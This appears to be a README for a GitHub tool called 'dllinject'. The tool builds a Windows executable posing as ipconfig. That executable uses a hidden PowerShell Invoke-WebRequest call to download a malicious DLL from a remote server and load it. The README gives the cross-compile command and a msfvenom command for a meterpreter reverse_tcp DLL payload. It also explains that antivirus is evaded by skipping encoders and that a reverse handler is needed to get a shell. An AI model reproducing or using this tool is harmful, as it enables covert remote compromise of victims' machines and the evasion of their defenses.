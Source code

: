 This C code is cross-compiled using i686-w64-mingw32-gcc , on a Linux <hostname> 4.18.0-kali2-amd64 #1 SMP Debian 4.18.10-2kali1 (2018-10-09) x86_64 GNU/Linux System.

Thus you would require i686-w64-mingw32-gcc compiler to compile Windows PE32 executables on Linux.

loadDLL() functionality :

The code basically invokes a powershell command (Invoke-WebRequest) to download a malicious DLL hosted in a remote webserver, while invoking an "ipconfig.exe" command.
Thus to the victim, the download of the malicious dll is virtually invisible.

The code loads the malicious dll in the runtime and pushes it in the stack, for execution.

main() function:

1. Invokes the ipconfig.exe 
2. Calls the loadDLL(); function.

Dependencies : 
1. sudo apt-get update
2. apt-get install mingw-w64

Compilation:

i686-w64-mingw32-gcc dllinject.c -o ipconfigg.exe

DLL generation :
msfvenom -p windows/meterpreter/reverse_tcp lhost=<your ip> lport=<desired port> -f dll -o test.dll

I have purposely not used any encoders as the process is fast enought to load the dll on runtime, before the AV software daemon runcheck detects it.

Similarly , you need to start a meterpreter reverse handler with specified parameters , to obtain the reverse shell.
# dllinject

https://www.youtube.com/watch?v=rK7AW9wh5g0
